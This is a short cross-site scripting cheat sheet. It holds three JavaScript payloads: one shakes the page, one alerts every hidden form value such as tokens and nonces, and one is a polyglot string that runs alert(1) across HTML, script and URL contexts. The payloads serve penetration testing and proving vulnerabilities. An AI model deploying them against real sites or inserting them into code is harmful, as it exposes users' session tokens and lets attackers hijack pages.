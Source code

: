 # XSS (Cross-Site Scripting) Cheat Sheet

## JavaScript Injections

This section covers payloads needed to prove XSS vulnerability. These payloads can be combined to create unique payloads according to language syntax. Most of the payloads shown here can also be used in HTML injection vectors.

### Shaking Visible Elements

Use this payload to shake all visible elements of the page as a visual indication of the vulnerability.

```javascript
setInterval(k => { 
  b = document.body.style; 
  b.marginTop = (b.marginTop == '4px') ? '-4px' : '4px'; 
}, 5);
```

### Alert Hidden Values

Use this payload to prove that all hidden HTML values like tokens and nonces in the target page can be stolen.

```javascript
f = document.forms;
for (i = 0; i < f.length; i++) {
  e = f[i].elements;
  for (n in e) {
    if (e[n].type == 'hidden') {
      alert(e[n].name + ': ' + e[n].value);
    }
  }
}
```

## Polygot Test XSS Payload

This test payload can execute in multiple contexts including HTML, script strings, JavaScript, and URLs.

```javascript
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

[Source](https://brutelogic.com.br/blog/wp-content/uploads/2021/09/Brute-XSS-Cheat-Sheet-Sample.pdf)


## Identifying XSS Endpoints
